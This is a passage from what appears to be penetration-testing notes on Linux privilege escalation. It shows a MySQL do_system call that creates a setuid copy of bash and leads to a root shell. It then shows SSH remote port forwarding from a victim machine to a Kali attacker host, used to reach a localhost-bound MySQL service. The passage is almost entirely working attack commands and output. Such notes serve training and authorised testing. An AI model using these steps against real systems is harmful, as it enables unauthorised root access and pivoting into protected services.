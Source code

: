 ```bash


mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash')
    -> ;
+-----------------------------------------------------------------+
| do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash') |
+-----------------------------------------------------------------+
|                                                               0 |
+-----------------------------------------------------------------+

mysql> exit


$ /tmp/rootbash -p
# whoami
root
```
{% endcode %}

## Port Forwarding

It's possible that a root process may be bound to an internal port. If an exploit cannot work locally, we can forward the port using SSH to kali

```bash
$ ssh -R <local-port>:127.0.0.1:<service-port> <username>@<kalimachine>
```

Now we should be able to run the exploit by setting the RHOST and PORT to whatever it was that we chose.

### Example

```bash
netstat -ano
#You can see below that Mysql (3306)
#is bound to the local host (127.0.0.1)
#as opposed to 0.0.0.0
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      off (0.00/0/0)

#From the victim machine
$ ssh -R 4444:127.0.0.1:3306 kali@<kali ip>

#From Kali
$ mysql -u root -h 127.0.0.1 -P 4444
mysql > select @@hostname;
+------------+
| @@hostname |
+------------+
| debian     |
+------------+

```
